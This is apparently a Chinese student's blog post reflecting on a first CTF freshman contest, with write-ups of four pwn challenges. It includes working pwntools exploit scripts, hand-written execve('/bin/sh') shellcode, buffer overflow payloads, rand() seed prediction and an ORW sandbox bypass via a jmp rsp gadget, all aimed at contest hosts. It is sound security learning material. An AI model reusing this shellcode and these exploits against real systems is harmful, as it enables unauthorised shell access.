 ```yaml
---
title: 第一场CTF比赛
description: 关于我的第一场CTF比赛
pubDatetime: 2023-04-15
ogImage: ../../assets/1.jpg
language: cn
tags:
  - 网络安全
---
```


## 第一次参加CTF新生赛总结与反思

因为昨天学校那边要进行天梯模拟赛，所以被拉过去了。<br />16点30分结束，就跑回来宿舍开始写。<br />第一题和第二题一下子getshell，不用30分钟，可能我没想那么多，对比网上的WP，自己和他们有点不太一样，比较暴力。<br />大概17点10的时候，写第三题，可能自己第一次遇到随机数问题，我当时的想法是网上有没有随机数种子的工具，查了一下，还真有这个库。说明了pwntools库是个宝藏，自己平时应该抽空研究一下那个库，利用好他，成为一把好工具。<br />后面第三题，刚结束的时候，写出来了。其实思路没有错，就是自己的脚本写的时候，想让代码看起来可读性更高（可能以前写开发项目写习惯了，强迫症），然后多取了一次随机数，导致和远程那边不同步。后面不知道怎么的，把那个变量删了，就好了，当时傻逼了。<br />第四题知道是orw题目，目标是读flag，但是不会写shellcode。只能说，有思路，写不出，所以后面也应该提升自己的shellcode能力。不能只会写那种比较固定的shellcode。<br />虽然不知道其他人情况如何，但是自己第一次参加，接触pwn还没有一个月，学习反馈还是挺满意。<br />一路也遇到了很多师傅，结交很多朋友！继续努力！

## 比赛题目总结（核心，一定要学会shellcode！）

> PS：以下题目的保护权限都开得很少！！！
> 所以就不贴图checksec图片了！！！
> 要获得flag，本次比赛关键在于：会自己写简短的shellcode，会使用随机数库。

### Shellcode（编写短shell）

> 题目思路很简单，就是shellcode，不过长度有限制。
> 我是自己手改pwntools。

使用pwntools生成的，本质就是执行/_ execve(path='/bin///sh', argv=['sh'], envp=0) _/

```python
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```

那么开始手搓，搞定！

> 注意，32位是int0x80，64位是syscall

```python

shellcode='''
mov rbx, 0x68732f6e69622f
push rbx
push rsp
pop rdi
xor esi, esi
xor edx, edx
push 0x3b
pop rax
syscall
'''
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727777007-a60311bc-38b1-4da3-94dc-fddf9e9e4f8d.png#averageHue=%23060403&clientId=uddbdf830-9bbd-4&from=paste&height=319&id=udd613c04&originHeight=479&originWidth=1274&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=53472&status=done&style=none&taskId=u039c4f2f-78df-4a74-ad8d-78661bc973a&title=&width=849.3333333333334)

```python
from pwn import *
context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./pwn2')
io = remote('node6.anna.nssctf.cn',28961)
io.recvuntil(b'Please.')

shellcode='''
mov rbx, 0x68732f6e69622f
push rbx
push rsp
pop rdi
xor esi, esi
xor edx, edx
push 0x3b
pop rax
syscall
'''

io.sendline(asm(shellcode))

io.recvuntil(b"start!")

payload =  b'a' * (0xa + 8 ) + p64(0x6010A0)

io.sendline(payload)

io.interactive()
```

### EASY PWN（直接暴力）

> 不用想那么多，直接随便输入垃圾数据即可
> 因为只要V5大于0就ok了，甚至偏移都不用想，直接乱输入
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727698637-05acd4de-d886-421d-820b-aca7f36dea93.png#averageHue=%23040301&clientId=uddbdf830-9bbd-4&from=paste&height=700&id=u55b26be6&originHeight=1050&originWidth=1005&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=88239&status=done&style=none&taskId=u6e73728f-42a0-4f46-80b2-edd5976d13f&title=&width=670)

```python
from pwn import *
context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./easypwn')
io = remote('node6.anna.nssctf.cn',28962)
payload = b'\x00'
payload = payload.ljust(0x30,b'a')
io.sendline(payload)
#io.sendlineafter(b'Password:',payload)

io.interactive()
```

### 真男人下120层（随机数库）

> 第一次认识，随机数这个库，然后没有什么难的
> 暴力循环120次即可
> 感觉一点都不pwn
> 注意脚本编写时候，别自作多情多取一次
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727860579-93511b92-b3f9-454c-916a-3fcde4b6a841.png#averageHue=%23040201&clientId=uddbdf830-9bbd-4&from=paste&height=358&id=u8f80025a&originHeight=537&originWidth=1581&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=47424&status=done&style=none&taskId=uc5005af7-56fc-4133-bc4b-2ed1798a063&title=&width=1054)

```python
from  pwn import *
from  ctypes import *
#context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./bin')
io=remote('node6.anna.nssctf.cn',28130)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

srand = libc.srand(libc.time(0))
srand = libc.srand(srand % 3 - 1522127470)
io.recvuntil('Floor')

for i in range(121):
     io.sendline(str(libc.rand( ) % 4 + 1).encode( ))

io.interactive()

```

### Random（绕沙箱加短脚本）

> 程序禁了 execv，没开 NX，有 ‘jmp rsp’ 这么一个 gadget，所以往栈上写的 shellcode 是可执行且能利用到的。
> 很明显，是要读flag
> 先用pwn生成一个cat
> 用ljust左对齐抬高到0x28
> 返回地址为jmp rsp
> 填充 asm('sub rsp,0x30;call rsp')
> 那么返回的时候，执行jmp rsp，即asm('sub rsp,0x30;call rsp')，然后cat flag
> 太妙了！！！第一次见到这样的！

```python
    jmp=0x40094E
    shellcode=asm(shellcraft.cat('flag'))
    shellcode=shellcode.ljust(0x28,b'\x00')
    payload=shellcode+p64(jmp)+asm('sub rsp,0x30;call rsp')
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727956589-d7bb4c33-467c-40a0-b3dc-8d8ee7bec955.png#averageHue=%23030202&clientId=uddbdf830-9bbd-4&from=paste&height=665&id=u244b8bdf&originHeight=998&originWidth=1331&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=82620&status=done&style=none&taskId=u2b5945ba-fda3-4f65-a5a9-5e6b8d3abc2&title=&width=887.3333333333334)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727966018-1eda846a-bdde-4eb1-b528-c36331666492.png#averageHue=%23070604&clientId=uddbdf830-9bbd-4&from=paste&height=142&id=u9f26ea37&originHeight=213&originWidth=838&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=17430&status=done&style=none&taskId=uabe194ae-9f33-4f93-b9bc-bb83889f606&title=&width=558.6666666666666)

```python
from pwn import *
from ctypes import *
context(os='linux',arch='amd64',log_level='debug')
io=remote('node5.anna.nssctf.cn',28933)
#io=process('./RANDOM')

libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
srand =  libc.srand(libc.time(0))

for i in range(100):
    io.sendlineafter('please input a guess num:',str(libc.rand( )%50).encode( ))
    io.recvline()
    jmp=0x40094E
    shellcode=asm(shellcraft.cat('flag'))
    shellcode=shellcode.ljust(0x28,b'\x00')
    payload=shellcode+p64(jmp)+asm('sub rsp,0x30;call rsp')
    io.send(payload)
    io.interactive()
```
